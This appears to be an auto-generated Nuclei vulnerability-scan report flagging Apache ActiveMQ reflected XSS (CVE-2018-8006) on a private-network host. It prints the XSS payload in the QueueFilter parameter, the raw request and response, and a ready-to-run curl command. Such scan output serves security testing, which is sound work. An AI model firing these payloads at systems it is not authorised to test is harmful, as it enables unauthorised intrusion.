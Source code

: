 ### Apache ActiveMQ XSS (CVE-2018-8006) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2018-8006**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/admin/queues.jsp?QueueFilter=yu1ey%22%3e%3cscript%3ealert(%221%22)%3c%2fscript%3eqb68

**Timestamp**: Wed Jun 8 20:22:01 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Apache ActiveMQ XSS |
| Authors | pdteam |
| Tags | cve, cve2018, apache, activemq, xss |
| Severity | medium |
| Description | An instance of a cross-site scripting vulnerability was identified to be present in the web based administration console on the queue.jsp page of Apache ActiveMQ versions 5.0.0 to 5.15.5. The root cause of this issue is improper data filtering of the QueueFilter parameter. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2018-8006](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-8006) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /admin/queues.jsp?QueueFilter=yu1ey%22%3e%3cscript%3ealert(%221%22)%3c%2fscript%3eqb68 HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 209
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/admin/queues.jsp?QueueFilter=yu1ey"><script>alert("1")</script>qb68</B> was not found.</BODY></HTML>
```

References: 
- http://activemq.apache.org/security-advisories.data/cve-2018-8006-announcement.txt
- http://www.securityfocus.com/bid/105156
- https://lists.apache.org/thread.html/2b5c0039197a4949f29e1e2c9441ab38d242946b966f61c110808bcc@%3ccommits.activemq.apache.org%3e
- https://lists.apache.org/thread.html/fcbe6ad00f1de142148c20d813fae3765dc4274955e3e2f3ca19ff7b@%3cdev.activemq.apache.org%3e
- https://lists.apache.org/thread.html/a859563f05fbe7c31916b3178c2697165bd9bbf5a65d1cf62aef27d2@%3ccommits.activemq.apache.org%3e
- https://lists.apache.org/thread.html/03f91b1fb85686a848cee6b90112cf6059bd1b21b23bacaa11a962e1@%3cdev.activemq.apache.org%3e
- https://lists.apache.org/thread.html/3f1e41bc9153936e065ca3094bd89ff8167ad2d39ac0b410f24382d2@%3cgitbox.activemq.apache.org%3e
- https://lists.apache.org/thread.html/c0ec53b72b3240b187afb1cf67e4309a9e5f607282010aa196734814@%3cgitbox.activemq.apache.org%3e
- https://lists.apache.org/thread.html/rb698ed085f79e56146ca24ab359c9ef95846618675ea1ef402e04a6d@%3ccommits.activemq.apache.org%3e
- https://lists.apache.org/thread.html/r946488fb942fd35c6a6e0359f52504a558ed438574a8f14d36d7dcd7@%3ccommits.activemq.apache.org%3e

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36' 'http://192.168.198.179:8080/admin/queues.jsp?QueueFilter=yu1ey%22%3e%3cscript%3ealert(%221%22)%3c%2fscript%3eqb68'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)